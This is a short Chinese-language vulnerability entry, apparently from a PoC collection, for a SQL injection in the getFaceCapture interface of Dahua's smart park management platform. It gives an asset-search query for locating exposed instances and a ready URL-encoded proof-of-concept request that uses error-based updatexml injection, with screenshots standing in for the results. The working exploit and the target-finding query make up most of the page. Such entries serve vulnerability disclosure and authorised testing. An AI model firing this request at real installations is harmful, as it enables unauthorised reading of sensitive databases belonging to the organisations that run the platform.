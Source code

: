 # 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![image-20230828145938818](images/image-20230828145938818.png)